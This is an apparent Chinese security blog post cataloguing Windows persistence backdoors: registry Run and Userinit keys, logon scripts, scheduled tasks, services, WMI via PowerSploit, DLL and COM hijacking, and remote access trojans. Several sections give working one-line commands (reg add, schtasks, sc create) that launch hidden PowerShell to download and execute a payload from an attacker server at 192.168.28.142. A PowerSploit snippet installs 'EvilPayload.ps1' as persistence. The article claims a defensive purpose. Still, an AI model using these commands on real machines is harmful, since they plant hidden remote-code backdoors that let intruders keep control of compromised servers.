





关键词：Windows系统后门、权限维持

在获取服务器权限后，通常会用一些后门技术来维持服务器权限，服务器一旦被植入后门，攻击者便如入无人之境。本文将对常见的window服务端自启动后门技术进行解析，知己知彼方能杜绝后门。

**0x01 注册表自启动**

通过修改注册表自启动键值，添加一个木马程序路径，实现开机自启动。

常用的注册表启动键：

```
# Run键 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon

类似的还有很多,关键词：注册表启动键值。
```

使用以下命令可以一键实现无文件注册表后门：

`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f`

**Logon Scripts 后门**

注册表路径：HKEY_CURRENT_USER\Environment\

创建字符串键值：  UserInitMprLogonScript，键值设置为bat的绝对路径：`c:\test.bat`

**userinit后门**

在用户进行登陆时，winlogon运行指定的程序。根据官方文档,可以更改它的值来添加与删除程序。

利用USERINIT注册表键实现无文件后门：

~~~
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
 
"Userinit"="C:\\Windows\\system32\\userinit.exe,C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""
~~~

**0x02 组策略设置脚本启动**

运行gpedit.msc进入本地组策略，通过Windows设置的“脚本(启动/关机)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。



容易遇到的问题：脚本需全路径，如`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe `

**0x03 计划任务**

通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：

~~~
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.28.142:8888/logo.gif\"\"\"))\""
~~~

容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。

计划脚本每 1 分钟运行一次。



**0x04 服务自启动**

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

~~~
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name                            //启动服务
~~~

成功创建了一个自启动服务



**0x05 WMI后门**

在2015年的blackhat大会上Matt Graeber介绍了一种无文件后门就是用的WMI。这里可以利用一个工具powersploit，下面用它的Persistence模块来示范一个简单的例子。

~~~
Import-Module .\Persistence\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
~~~

**0x06 dll劫持**

如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这个DLL；如果攻击者能够控制其中的某一 个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意的DLL便会被进程所加载，从而造成代码执行。

比较常用的如LPK.dll的劫持：

win7及win7以上系统增加了KnownDLLs保护，需要在注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

下添加 “lpk.dll” 才能顺利劫持：



**0x07 COM劫持**

利用COM劫持技术，最为关键的是dll的实现以及CLSID的选择，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。这种方法可以绕过Autoruns对启动项的检测。


**0x08 远程控制**

远控木马是一种恶意程序，其中包括在目标计算机上用于管理控制的后门。远程访问木马通常与用户请求的程序（如游戏程序）一起，是一种看不见的下载，或作为电子邮件附件发送。一旦主机系统被攻破，入侵者可以利用它来向其他易受感染的计算机分发远程访问木马，从而建立僵尸网络。

一般分为客户端和服务端，如：灰鸽子、上兴远控、梦想时代、QuasarRAT等。



**0x09 结束语**

未知攻焉知防，本文分享了几种Window下的自动启权限维持技术。管理员在平时运维过程应当保持警惕，掌握一定的入侵排查技巧，及时进行系统补丁更新，定期对服务器安全检查，才能有效地预防后门。

